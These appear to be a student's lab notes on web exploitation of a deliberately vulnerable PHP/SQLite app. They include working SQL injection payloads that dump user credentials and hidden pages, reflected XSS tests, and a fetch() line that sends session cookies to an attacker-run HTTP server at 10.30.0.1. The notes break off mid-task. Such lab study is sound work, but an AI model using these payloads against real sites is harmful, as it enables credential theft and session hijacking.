



- What is SQLi?
  - It is a type of vulnerability, which allows the attacker to directly interact with the backend database, by inserting different SQL commands in the valid input locations. 
- How does it impact the CIA trait? 
  - Confidentiality:
    - It can allow the attacker to steal sensitive data and read them. 
  - Integrity:
    - It can allow the attacker to modify the values inside the database
  - Availability:
    - It can allow the attacker to delete all the content of the DB. 
- How can you detect it? 
  - There are many ways to do so.
  - First way is to insert common payloads in all input fileds of the application, such as
    - ' or 1=1-- (This is our case in password field.)
    - Payload designed to cause a delay in responses.
- What are the different types of SQLi?
  - In-Band (Error and Union)
    - Easier to exploit because you can see the results in the same page while testing. 
  - Inferential (Blind) (Boolean and Time)
  - Out-of-band.

# Tasks

## Task1
- What do we need to do in Task1:
  - We need to use SQLi to dump the admin's password. 
  - Log in as admin and post a comment
  - Export all users and passwords to users.txt
- How to exploit task1:
  - Insert wrong input in the fields (username and password)
  - We will find errors shown in the webpage.
    - It will state the DB used which is SQLLite3
  - Now look for a payload that allows you to know about the db scheme
    - > ' Union SELECT name from sqlite_master where type ='table'-- 
- What is sqlite_master?
  - It is a special table in Sqllite used to store meta data about the DB schema.
  - The output of this payload shows that we have 2 tables which are:
    - pages
    - users
- Now we need to try to get column names from the table
  - > ' UNION SELECT sql FROM sqlite_master WHERE name='users' --
  - This shows the sql column, which stores the create table statement. 
  - So the result of this statement will show both columns. 
    - name and password
- Now we need to select all entries from that table:
  - > ' UNION SELECT name || ':' || password FROM users --
  - 

## Task2
- What do we need to do in task2? 
  - Find and list all hidden URLs/pages in the app via SQLi
  - Document whether they need authentication
  - Save page list to pages.txt
- Finding hidden pages:
  - > ' UNION SELECT sql FROM sqlite_master WHERE name='pages' --
  - > ' UNION SELECT php || ':' || views FROM pages --
  - 
- Which need authentication?
  - Only comments.php

## Task3
- What do we need to do in task3? 
  - Discover reflected XSS
  - Test the search page, and identify encoding, HTTP methid, and the Datastructured used.
- By adding simple payloads such as
  - > script> alert(1) </script
  - we can find that there is an alert shown in the page.
- Answering the questions:
  - No, it doesn't perform any kind of validation, and this is why it is vulnerable. 
  - We can see that it is reflected in the URL, so it follows GET method, and using key-value format.
  - The page is publicly accessible but executes within the context of an authenticated user. So this makes it perfect for session hijacking. 

## Task4 
- What do we need to do? 
  - We need to create a malicious URL using the reflected XSS to steal session cookies. 
  - We should use simple HTTP server to recieve the data
  - And prove that we managed to steal the session by accessing the app as ada
- Exploiting the task
  1. login as ada
  2. Go to search.php
  3. On attacker machine create add this payload to a file
     1. > fetch("http://10.30.0.1:9000?cookie=" + document.cookie);
     2. call it exploit.js and store it in a folder.
  4. from the same location of this folder, open a http server
     1. > python3 -m http.server 9000 --bind 10.30.0.1
  5. Add this in the search from ada account:
     1. > 
  6. 

## Task5
- What should we do?
  - We should exploit XSS to post a malicious comment that auto-runs for furture visitor. 
  - Handle CSRF token and comment-posting logic in exploit.js
  - So once the victim clicks the malicious link, all users are infected.
- How to do it?
  - Go to comments page
  - try to add exploit, you will find that it doesn't allow to add special characters or spaces. We can know this by try and error. 
  - We must find a way to bypass the validation. 
  - Open burpsuite, and intercept the request, and modify it. 
  - So we can notice that this is a validation happens only in the frontend, so we can just capture the payload, and modify it and send it to the server. 
  - On investigating the comment request, we will find that there are two important parameters which are:
    - comment
    - token256 which is CSRF token. 
      - CSRF is short for Cross-site request forgery. 
        - It is a secret random number that the web app adds to forms to prevent attacker from tricking the user to send requests to different websites as if he was the legitimate user
        - The idea is that the user will always get a random number, that he must submit it during the request, so the attacker can not have access to it.
        - This is different from XSS, because XSS runs inside the user browser, so it can see this value. 
    - Also we have a cookie which is PHPSESSID
      - 